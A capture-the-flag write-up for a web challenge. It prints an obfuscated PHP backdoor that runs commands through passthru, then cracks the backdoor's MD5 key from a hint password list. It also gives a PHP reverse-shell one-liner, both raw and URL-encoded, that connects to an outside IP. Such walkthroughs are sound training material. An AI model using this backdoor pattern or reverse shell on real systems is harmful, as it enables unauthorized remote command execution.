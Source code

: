 # Challenge Name: Arcade Game


![date](https://img.shields.io/badge/date-17.04.2022-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-150-blue.svg)  


## Description

A group of hackers succeeded to own our lovely arcade machine, till now we have no idea how or when but we are sure that they will come back, due to our analysis we think there's a backdoor, try to find it for us and read the flag.

[https://thnbdarija-arcade.chals.io/](https://thnbdarija-arcade.chals.io/)

_Author : EddieMora_


## Detailed solution  

Start by checking the website 

![image](https://user-images.githubusercontent.com/72421091/163740676-92c18d66-4575-4fbf-b341-cde1bbf0c4f7.png)

Source page has nothing interesting

Let's check for known files and do some directory bruteforcing 

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 20 -u https://thnbdarija-arcade.chals.io/ -e php,txt,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://thnbdarija-arcade.chals.io/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/04/17 04:55:49 Starting gobuster in directory enumeration mode
===============================================================
https://thnbdarija-arcade.chals.io/.htpasswd            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/.htaccess            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/README               (Status: 200) [Size: 377]
https://thnbdarija-arcade.chals.io/css                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/css/]
https://thnbdarija-arcade.chals.io/img                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/img/]
https://thnbdarija-arcade.chals.io/js                   (Status: 301) [Size: 337][--> http://thnbdarija-arcade.chals.io/js/]
https://thnbdarija-arcade.chals.io/robots.txt           (Status: 200) [Size: 485]             
https://thnbdarija-arcade.chals.io/server-status        (Status: 403) [Size: 291]             
                                                                                                                                   
===============================================================
2022/04/17 04:58:26 Finished
===============================================================

```

- https://thnbdarija-arcade.chals.io/robots.txt the only accessible files are /README and /hint.txt
```
User-agent: Applebot
Disallow: /ajax/
Disallow: /album.php
Disallow: /checkpoint/
Disallow: /contact_importer/
Disallow: /dialog/
Disallow: /fbml/ajax/dialog/
Disallow: /feeds/
Disallow: /file_download.php
Disallow: /job_application/
Disallow: /l.php
Disallow: /moments_app/
Disallow: /p.php
Disallow: /photo.php
Disallow: /photos.php
Disallow: /plugins/
Disallow: /share.php
Disallow: /share/
Disallow: /sharer.php
Disallow: /sharer/
Disallow: /tr/
Disallow: /tr?
Disallow: /hint.txt
```

- https://thnbdarija-arcade.chals.io/README it shows the source code for a backdoor 

```php
<?php
$X = chr(0x73);
$R = chr(0x72);
$F = chr(0x75);

$cGFzc3dvcmQ = "b02dc9b178659a6ea480d72c94713469"; //password123@!
$owner = "logic";

//flag{try_h4rd3r_1337}

$B = chr(0x61);
$E = chr(0x68);
$D = chr(0x74);
$A = chr(0x70);

$hook = $A.$B.$X.$X.$D.$E.$R.$F;

if($cGFzc3dvcmQ === md5($_GET['key']) && $owner === $_GET['hint'])
{
  $hook($_GET['zip']);
}
else
{
  die();
}
```
### Analyzing the source code 

- $hook is the `passthru` function 
- we need to find the original string for this md5 hash "b02dc9b178659a6ea480d72c94713469"
- To execute a command using the backdoor, we need to send /?key=S&hint=logic&zip=command

Now we need to find the key. we have the file hint.txt that has some passwords

```
["password", 123456, 12345678, 1234, "qwerty", 12345, "dragon", "pussy", "baseball", "football", "letmein", "monkey", 696969, "abc123", "mustang", "michael", "shadow", "master", "jennifer", 111111, 2000, "jordan", "superman", "harley", 1234567, "fuckme", "hunter", "fuckyou", "trustno1", "ranger", "buster", "thomas", "tigger", "robert", "soccer", "fuck", "batman", "test", "pass", "killer", "hockey", "george", "charlie", "andrew", "michelle", "love", "sunshine", "jessica", "asshole", 6969, "pepper", "daniel", "access", 123456789, 654321, "joshua", "maggie", "starwars", "silver", "william", "dallas", "3waba1337@!", 123123, "ashley", 666666, "hello", "amanda", "orange", "biteme", "freedom", "computer", "sexy", "thunder", "nicole", "ginger", "heather", "hammer", "summer", "corvette", "taylor", "fucker", "austin", 1111]
```

After trying the md5 of those passwords, I found the one needed

MD5(3waba1337@!) = b02dc9b178659a6ea480d72c94713469

Now the backdoor command is /?key=3waba1337@!&hint=logic&zip=command

Now we need to find the backdoor location, I changed to the diresearch default wordlist and retry bruteforcing

I found the backdoor /admin.php 

Now let's send the full command. I used the php reverse shell (bash didn't work) 

```
php -r '$sock=fsockopen("18.158.249.75",19145);exec("bash <&3 >&3 2>&3");'
```

```
https://thnbdarija-arcade.chals.io/admin.php?key=3waba1337%40%21&hint=logic&zip=php%20-r%20%27%24sock%3Dfsockopen%28%2218.158.249.75%22%2C19145%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

I got the reverse shell 

![image](https://user-images.githubusercontent.com/72421091/163742024-53625e1e-2c55-4cdd-be54-036e2ea8ffdf.png)

The box dosen't have python so I used script to stabilize the shell `/usr/bin/script -qc /bin/bash /dev/null`

Checking the home directory, i found a user called ctf with a file .flag inside his home directory 

![image](https://user-images.githubusercontent.com/72421091/163742333-7341fdd8-cb35-449a-9609-135fe4942ea1.png)

### Flag

```
thnb{Th4nkS_f0r_s4v1ng_Th3_4rC4d3_M4ch1n3}
```
